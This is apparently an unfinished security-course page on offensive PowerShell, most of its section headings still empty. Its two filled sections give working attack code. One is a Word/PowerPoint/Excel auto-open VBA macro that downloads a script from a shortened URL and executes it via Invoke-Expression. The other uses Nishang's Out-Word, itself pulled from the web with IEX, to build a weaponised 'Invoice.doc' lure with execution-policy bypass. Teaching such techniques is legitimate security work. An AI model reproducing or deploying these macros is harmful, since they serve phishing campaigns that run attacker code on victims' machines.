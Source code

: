 ```yaml
---
ref: cmap-powershell
title: CMAP Module 6 - Empowering the PowerShell
date: 2022-10-25T00:00:00+00:00
layout: page
permalink: /en/powershell/
sitemap: false
---
```


> Work in Progress

## Hackers and Powerhell

### Basic Techniques

#### Encoded Commands

#### Running Scripts from Web

#### PowerShell Execution Policy

#### Constrained Language Mode

### Office Macros

#### PowerShell Autorun from Macro
```vbs
' Word Compatibility
Sub Auto_Open()
    Dim exec As String
    cmd = "powershell.exe ""Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://bit.ly/e0Mw9w'))"""
    Shell (cmd)
End Sub

' PowerPoint Compatibility
Sub AutoOpen()
    Auto_Open
End Sub

' Excel Compatibility
Sub Workbook_Open()
    Auto_Open
End Sub
```

#### Macro Document Generator
```powershell
# Import the Out-Word cmdlet from the Nishang module
IEX(IWR 'https://raw.githubusercontent.com/samratashok/nishang/master/Client/Out-Word.ps1')
 
# Create payload
$payload = "powershell.exe -ExecutionPolicy Bypass -noprofile -noexit -c Get-Process"

# Generate a Word document
$path = Join-Path (Resolve-Path .) 'Invoice.doc'
Out-Word -Payload $payload -OutputFile $path -RemainSafe